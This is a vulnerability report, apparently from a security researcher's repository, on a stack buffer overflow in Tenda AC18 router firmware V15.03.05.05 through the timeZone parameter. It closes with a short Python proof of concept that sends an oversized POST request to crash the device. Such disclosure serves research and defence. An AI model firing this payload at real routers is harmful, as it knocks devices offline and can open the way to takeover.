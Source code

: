 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `form_fast_setting_wifi_set` function. The `v1` variable receives the `timeZone` parameter from a POST request and is later assigned to the `v16` variable. Then v16 is assigned to `nptr` and `v7` by `sscanf`. However, since the user can control the input of  `timeZone`, the statement `sprintf(v9, "%d", v21);` can cause a buffer overflow. The user-provided  `timeZone` can exceed the capacity of the `v9` array, triggering this security vulnerability.

![image-20240308203733864](form_fast_setting_wifi_set_timeZone_v21.assets/image-20240308203733864.png)

![image-20240308203708294](form_fast_setting_wifi_set_timeZone_v21.assets/image-20240308203708294.png)

## POC

```python
import requests
ip = '192.168.84.101'
url = f'http://{ip}/goform/fast_setting_wifi_set'

payload = {
    # 'ssid': 'a' * 1000
    'timeZone': 'a' * 1000 + ":" + "aaa"
}

r = requests.post(url=url, data=payload)
print(r.content)
```

![image-20240305164305678](form_fast_setting_wifi_set_timeZone_v21.assets/image-20240305164305678.png)
